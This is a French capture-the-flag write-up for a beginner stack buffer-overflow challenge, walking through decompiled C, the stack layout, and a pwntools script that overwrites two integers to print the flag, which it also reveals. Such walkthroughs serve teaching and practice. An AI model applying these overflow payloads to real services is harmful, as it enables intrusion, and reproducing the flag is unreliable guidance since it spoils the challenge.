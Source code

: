 # WriteUp

## Analyse de l'ELF

Une décompilation via Ghidra nous donne le code suivant :

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char unTableau [40];
  int unEntier1;
  int unEntier2;
  
  init(param_1);
  unEntier2 = L'\xdeadbabe';
  unEntier1 = L'\xbeefc0de';
  puts(&DAT_00402008);
  fgets(unTableau,49,stdin);
  if ((unEntier2 == L'\xbeefc0de') && (unEntier1 == L'\xdeadbabe')) {
    puts(&DAT_00402098);
    system("/usr/bin/cat flag.txt");
    puts("Au revoir, jeune apprenti...\n");
  }
  else {
    puts(
        "Malheureusement, vos actes ne montrent qu\'une sagesse peu recommandable, nous n\'attendons  aucune prouesse de votre part..."
        );
  }
  return 0;
}
```

La variable ```unTableau``` est déclarée avec une taille de 40 octets. Les variables ```unEntier1``` et ```unEntier2``` sont stockées en mémoire immédiatement après ```unTableau```. Ces deux entiers sont ensuite initialisés avec les valeurs ```0xdeadbabe``` et ```0xbeefc0de```.

```fgets(unTableau,49,stdin);``` nous indique que l'on va lire 48 octets (1 octet étant dédié au caractère null) de l'entrée utilisateur pour les stocker dans ```unTableau```. On se doute déjà que nous avons affaire à un buffer overflow (dépassement de tampon) qui va nous permettre d'écraser les variables situées au-dessus dans la stack.

Un check des variables entières semble être fait plus loin dans le code, s'il est respecté, le programme affiche le flag :

```c
if ((unEntier2 == L'\xbeefc0de') && (unEntier1 == L'\xdeadbabe')) {
    // Affiche le flag
}
```

Pour que le programme affiche le flag, les valeurs de ```unEntier1``` et ```unEntier2``` doivent être inversées par rapport à leurs initialisations.

## Exploit

La structure de la pile sera la suivante :

```markdown
| Adresse élevée |
-----------------
|  unEntier2     | <-- Variable la plus proche du sommet de la pile
-----------------
|  unEntier1     |
-----------------
|  unTableau[40] | <-- Tampon où se produit le dépassement
-----------------
| Adresse basse  |
```

Nous devons donc dépasser les 40 octets de ```unTableau``` pour atteindre ```unEntier1``` et ```unEntier2``` et écraser leurs valeurs afin qu'elles correspondent à ce qui est souhaité par la condition pour afficher le flag.

Nous allons donc créer le payload suivant :

```python
payload = b'A'*40 # padding de 40 octets
payload += b'\xbe\xba\xad\xde\xde\xc0\xef\xbe' # les valeurs de la conditions (en little endian)
```

Il suffit ensuite d'injecter le payload en se connectant au service :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challenges.hackagou.nc', 5002)
conn.recvuntil(b'\n\n')
conn.send(b'A'*40 + b'\xbe\xba\xad\xde\xde\xc0\xef\xbe')
conn.interactive()
```

```bash
❯ python pwn-actes.py
[+] Opening connection to challenges.hackagou.nc on port 5002: Done
[*] Switching to interactive mode
Bravo, tes actes semblent empreints d'une sagesse sans égale, tes prouesses n'en seront que plus louables !

OPENNC{13_Gu3rR13r_4g17_4v3c_54g35s3_3t_Br4v0uR3...}
Au revoir, jeune apprenti...

[*] Got EOF while reading in interactive
```